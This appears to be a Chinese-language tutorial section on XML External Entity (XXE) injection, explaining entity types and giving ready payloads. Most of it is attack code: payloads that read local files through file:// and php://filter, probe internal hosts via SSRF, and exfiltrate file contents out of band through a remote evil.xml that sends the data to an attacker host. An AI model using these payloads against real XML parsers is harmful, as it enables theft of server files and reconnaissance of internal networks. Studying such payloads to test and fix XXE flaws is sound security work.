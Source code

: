 ## **0x01:知识准备**



```
XXE即XML External Entity Injection，由于程序在解析输入的XML数据时，解析了攻击者伪造的外部实体而产生的。例如PHP中的simplexml_load默认情况下会解析外部实体，有XXE漏洞的标志性函数为simplexml_load_string（）
```

XML实体分为四种：字符实体，命名实体，外部实体，参数实体

**1、命名实体写法：**

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///c://test/1.txt" >]>        
<value>&xxe;</value>

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://otherhost/xxxx.php" >]>        
<value>&xxe;</value>
```

可以用做xxe+ssrf，用于内网扫描  
**2、命名实体+外部实体写法：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [
<!ENTITY dtd SYSTEM "http://localhost:88/evil.xml">
]> 
<value>&dtd;</value>
```

这种命名实体调用外部实体，发现evil.xml中不能定义实体，否则解析不了，感觉命名实体好鸡肋，参数实体就好用很多  
**3、第一种命名实体+外部实体+参数实体写法：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml"> 
%dtd; %all; 
]> 
<value>&send;</value>
```

其中evil.xml文件内容为

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:88%file;'>">
```

调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用命名实体send

**第二种命名实体+外部实体+参数实体写法：**

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml">
%dtd;
%send;
]>
<root></root>
```

其中evil.xml文件内容为：

```
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://localhost:88/?content=%file;'>"> %payload;
```

调用过程和第一种方法类似

